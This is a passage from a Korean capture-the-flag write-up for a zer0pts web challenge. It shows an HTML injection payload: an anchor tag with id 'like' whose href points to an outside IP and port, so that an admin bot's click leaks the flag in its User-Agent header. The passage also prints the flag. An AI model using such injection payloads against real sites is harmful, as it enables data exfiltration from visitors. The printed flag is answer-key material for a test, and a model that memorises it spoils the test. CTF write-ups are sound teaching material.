 그럼 content의 값으로 "&#60;a id='like' href='myip'&#62;&#60;/a&#62;"를 주면 click('#like')에 의해서 User-Agent에 FLAG가 들어있는 상태로 myip로 요청이 갈 것 입니다.

<span style="color:#631F9C">&#62;</span> Exploit

![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-27%20오후%206.54.47.png?raw=true)
```html
<a/udio id="like" href="http://141.164.52.207:12345">GG</a>
```
그래서 위 페이로드를 `Content`의 값으로 넘겨주니 요청이 내 서버로 전송이 된 것을 확인할 수 있었고, User-Agent 헤더의 flag가 있는 것도 볼 수 있었습니다.

> FLAG : zer0pts{M4sh1m4fr3sh!!}

---
### (Web) phpNantoKaAdmin [755pts]

귀찮다.


---
